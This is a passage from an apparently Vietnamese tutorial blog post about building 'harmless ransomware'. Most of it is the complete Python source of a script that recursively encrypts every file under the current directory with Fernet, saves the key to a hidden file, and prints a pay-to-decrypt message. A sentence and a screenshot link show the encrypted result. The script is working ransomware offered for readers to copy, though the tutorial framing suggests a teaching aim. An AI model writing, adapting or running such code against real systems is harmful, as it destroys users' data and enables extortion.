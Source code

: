 Thế là xong chương trình mã hóa file (`bill-cipher.py`). Đây là code cho chương trình mã hóa này:

```py
#!/usr/local/bin/python3 

import os
from cryptography.fernet import Fernet

def find_files():
	files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()

print(files)

key = Fernet.generate_key()

with open(".a_deal", "wb") as deal:
	deal.write(key)

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_encrypted = Fernet(key).encrypt(content)

	with open(file, "wb") as f:
		f.write(content_encrypted)

print("File đã bị mã hóa! Trả tiền thì sẽ giải mã")
```

Nếu như mình chạy file `bill-cipher.py` thì có thể thấy là các file mà chương trình này tìm được sẽ bị mã hóa và trở thành file chứa 1 đống chữ cái, ký tự random.

![file1-encrypted](/img/harmless-ransomware/file1-encrypted.png)
